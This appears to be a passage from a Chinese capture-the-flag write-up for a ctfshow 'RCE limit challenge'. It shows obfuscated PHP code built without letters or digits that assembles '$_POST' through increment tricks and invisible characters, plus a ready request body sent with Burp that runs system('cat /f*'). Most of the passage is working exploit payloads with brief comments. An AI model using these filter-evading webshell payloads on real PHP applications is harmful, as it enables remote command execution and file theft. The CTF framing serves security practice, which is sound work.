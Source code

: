 可以用不可见字符来减少长度，比如用$%FA ，73位预期解

```php
<?php
$_=_(_/_)[_];//相当于gettext(0/0)[0],得到N
$_=++$_;//O
$%FA=_.++$_.$_;//_PO
$_++;$_++;//R
$%FA.=++$_.++$_;//_POST
$$_[_]($$_[%FA]);//$_POST[a]($_POST[_])
```

62位非预期

```php
<?PHP
$_=_(%FA.%FA)[_];//N  //本地使用就用(_._._)[_],或者安装了一个扩展gettext
$%FA=++$_;//O
$$%FA[$%FA=_.++$_.$%FA[$_++/$_++].++$_.++$_]($$%FA[_]); //$_POST[_POST]($_POST[_])
```

payload，用bp发包


```php
ctf_show=$_=(_/_._)[_];$_%2b%2b;$%FA=$_.$_%2b%2b;$_%2b%2b;$_%2b%2b;$_=_.$%FA.%2b%2b$_.%2b%2b$_;$$_[_]($$_[%FA]);&_=system&%FA=cat /f*
```

![5](/medias/show-rce/5.png)

参考

- [RCE极限挑战](https://fushuling.com/index.php/2023/08/20/ctfshow%E5%88%B7%E9%A2%98%E8%AE%B0%E5%BD%95%E6%8C%81%E7%BB%AD%E6%9B%B4%E6%96%B0%E4%B8%AD/)